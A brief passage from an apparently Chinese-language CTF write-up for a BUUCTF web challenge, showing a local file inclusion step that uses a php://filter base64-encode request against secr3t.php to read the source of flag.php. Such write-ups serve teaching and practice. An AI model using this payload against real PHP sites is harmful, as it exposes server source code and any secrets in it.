 那么先尝试包含`flag.php`

```
?file=flag.php
```

并不在这里

<img src="/images/buuctf-web/image-20221013211456760.png" alt="image-20221013211456760" style="zoom:67%;" />

使用php伪协议读取`flag.php`的源码,得到flag

校园网就爆502,热点就可以,这是啥问题........

```
secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php
```

